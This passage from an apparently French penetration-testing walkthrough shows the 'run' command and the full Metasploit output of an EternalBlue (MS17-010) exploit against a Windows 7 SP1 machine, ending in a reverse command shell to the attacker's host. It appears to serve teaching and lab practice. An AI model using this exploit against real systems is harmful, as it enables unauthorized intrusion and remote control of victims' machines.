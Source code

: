 Une fois cela fait, lancez l'exploit !
</pre>

<br>Ensuite, tapez:

```bash
run
```
<pre>
[*] Started reverse TCP handler on &lt;IP_ATTACK&gt;:4444 
[*] &lt;IP_CIBLE&gt;:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] &lt;IP_CIBLE&gt;:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] &lt;IP_CIBLE&gt;:445     - Scanned 1 of 1 hosts (100% complete)
[+] &lt;IP_CIBLE&gt;:445 - The target is vulnerable.
[*] &lt;IP_CIBLE&gt;:445 - Connecting to target for exploitation.
[+] &lt;IP_CIBLE&gt;:445 - Connection established for exploitation.
[+] &lt;IP_CIBLE&gt;:445 - Target OS selected valid for OS indicated by SMB reply
[*] &lt;IP_CIBLE&gt;:445 - CORE raw buffer dump (42 bytes)
[*] &lt;IP_CIBLE&gt;:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] &lt;IP_CIBLE&gt;:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] &lt;IP_CIBLE&gt;:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] &lt;IP_CIBLE&gt;:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] &lt;IP_CIBLE&gt;:445 - Trying exploit with 12 Groom Allocations.
[*] &lt;IP_CIBLE&gt;:445 - Sending all but last fragment of exploit packet
[*] &lt;IP_CIBLE&gt;:445 - Starting non-paged pool grooming
[+] &lt;IP_CIBLE&gt;:445 - Sending SMBv2 buffers
[+] &lt;IP_CIBLE&gt;:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] &lt;IP_CIBLE&gt;:445 - Sending final SMBv2 buffers.
[*] &lt;IP_CIBLE&gt;:445 - Sending last fragment of exploit packet!
[*] &lt;IP_CIBLE&gt;:445 - Receiving response from exploit packet
[+] &lt;IP_CIBLE&gt;:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] &lt;IP_CIBLE&gt;:445 - Sending egg to corrupted connection.
[*] &lt;IP_CIBLE&gt;:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to &lt;IP_CIBLE&gt;
[*] Command shell session 1 opened (&lt;IP_ATTACK&gt;:4444 -> &lt;IP_CIBLE&gt;:49297) at 2024-09-12 09:56:27 +0100
[+] &lt;IP_CIBLE&gt;:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] &lt;IP_CIBLE&gt;:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] &lt;IP_CIBLE&gt;:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
</pre>

Nous voyons que l'exploit a fonctionné et que nous avons accès à `DOS` de `Windows 7 Pro SP1`.
<br>Gardez-le dans un coin, nous en aurons besoin plus tard.
